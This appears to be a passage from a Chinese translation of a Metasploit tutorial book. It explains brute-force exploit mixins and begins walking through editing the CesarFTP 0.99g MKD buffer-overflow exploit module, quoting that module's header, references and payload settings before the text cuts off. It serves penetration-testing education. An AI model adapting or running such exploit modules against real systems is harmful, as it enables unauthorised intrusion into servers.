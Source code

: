 +   `Exploit::Remote::BruteTargets`：此混合物提供对目标的暴力攻击。基本上它重载了`exploit()`方法，并为每个目标调用`exploit_target(target)`。其代码文件位于`lib/msf/core/exploit/brutetargets.rb`。

+   `Exploit::Remote::Brute`：此混合物重载了 exploit 方法，并为每个步骤调用`brute_exploit()`。它最适用于暴力攻击和地址范围。地址范围是一个远程暴力攻击混合物，最适用于暴力攻击。它提供了一个目标感知的暴力攻击包装器。它使用提供的地址调用`brute_exploit`方法。如果这不是一个暴力攻击目标，那么将调用`single_exploit`方法。`Exploit::Remote::Brute`的代码文件位于`lib/msf/core/exploit/brute.rb`。

## 编辑利用模块

了解编写利用模块的一个好方法是首先编辑一个。我们编辑位于`opt/metasploit/msf3/modules/exploits/windows/ftp/ceaserftp_mkd.rb`的模块。

### 注意

作者的注释在#符号后显示。

```
##
# $Id: cesarftp_mkd.rb 14774 2012-02-21 01:42:17Z rapid7 $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
#   http://metasploit.com/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
	Rank = AverageRanking

	include Msf::Exploit::Remote::Ftp

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Cesar FTP 0.99g MKD Command Buffer Overflow',
			'Description'    => %q{
				This module exploits a stack buffer overflow in the MKD verb in CesarFTP 0.99g.

				You must have valid credentials to trigger this vulnerability. Also, you
				only get one chance, so choose your target carefully.
			},
			'Author'         => 'MC',
			'License'        => MSF_LICENSE,
			'Version'        => '$Revision: 14774 $',
			'References'     =>
				[
					[ 'CVE', '2006-2961'],
					[ 'OSVDB', '26364'],
					[ 'BID', '18586'],
					[ 'URL', 'http://secunia.com/advisories/20574/' ],
				],
			'Privileged'     => true,
			'DefaultOptions' =>
				{
					'EXITFUNC' => 'process',
				},
			'Payload'        =>
				{
					'Space'    => 250,
					'BadChars' => "\x00\x20\x0a\x0d",
					'StackAdjustment' => -3500,
					'Compat'        =>
						{
```